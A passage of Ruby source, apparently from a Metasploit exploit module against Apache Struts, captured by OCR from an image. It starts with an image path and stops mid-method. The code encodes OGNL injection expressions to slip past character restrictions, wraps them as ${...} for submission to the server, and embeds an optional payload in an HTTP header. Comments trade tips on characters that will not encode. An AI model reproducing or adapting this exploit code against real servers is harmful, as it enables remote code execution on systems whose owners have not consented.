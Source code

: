         # TODO: Make sure the following line is uncommented
        bad_chars = %w[; \\ \r \n]    # and maybe '/'
        bad_chars.each do |c|
          if ognl.include? c
            print_error("Bad OGNL request: #{ognl}")
            fail_with(Failure::BadConfig, "OGNL request cannot contain a '#{c}'")
          end
        end

        # The following list of characters *must* be encoded or ORNL will asplode
        encodable_chars = { "%": "%25",       # Always do this one first.  :-)
                            " ": "%20",
                            "\"":"%22",
                            "#": "%23",
                            "'": "%27",
                            "<": "%3c",
                            ">": "%3e",
                            "?": "%3f",
                            "^": "%5e",
                            "`": "%60",
                            "{": "%7b",
                            "|": "%7c",
                            "}": "%7d",
                           #"\/":"%2f",       # Don't do this.  Just leave it front-slashes in as normal.
                           #";": "%3b",       # Doesn't work.  Anyone have a cool idea for a workaround?
                           #"\\":"%5c",       # Doesn't work.  Anyone have a cool idea for a workaround?
                           #"\\":"%5c%5c",    # Doesn't work.  Anyone have a cool idea for a workaround?
                          }

        encodable_chars.each do |k,v|
         #ognl.gsub!(k,v)                     # TypeError wrong argument type Symbol (expected Regexp)
          ognl.gsub!("#{k}","#{v}")
        end
        return ognl
      end

      def send_struts_request(ognl, payload: nil)
    =begin  #badchar-checking code
        pre = ognl
    =end

        ognl = "${#{ognl}}"
        vprint_status("Submitted OGNL: #{ognl}")
        ognl = encode_ognl(ognl)

        headers = {'Keep-Alive': 'timeout=5, max=1000'}

        if payload
          vprint_status("Embedding payload of #{payload.length} bytes")
          headers[datastore['HEADER']] = payload
        end
